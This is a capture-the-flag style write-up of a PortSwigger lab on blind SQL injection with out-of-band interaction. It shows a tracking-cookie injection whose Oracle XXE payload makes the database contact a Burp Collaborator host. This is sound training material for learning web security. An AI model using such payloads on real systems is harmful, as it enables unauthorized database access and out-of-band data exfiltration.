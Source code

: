 # Lab: Blind SQL injection with out-of-band interaction

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result of injection: No visible difference in page, no timing difference
- DB may perform DNS queries
- Goal: Perform a DNS lookup

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=uD5bMjtaBP5WNste; session=npWR2WTlX6rdoW3hr8p71NaSzOy2QZzD`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

The first step is to create a new Burp Collaborator listener

![create collaborator](img/create_collaborator.png)

The [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) contains multiple strings to cause a DNS lookup. I don't know the database engine used, so I try all payloads given there.

Starting with Oracle, I append the given payload to the cookie value. I ensure the query remains valid by adding brackets, concatenations and quotes around the payload (`'||(<PAYLOAD>)||'`) to create this query:

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://h9r49h8t93o98v0z0canusskqbw1kq.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)||'
```

![collaborator hit](img/collaborator_result.png)

![success](img/success.png)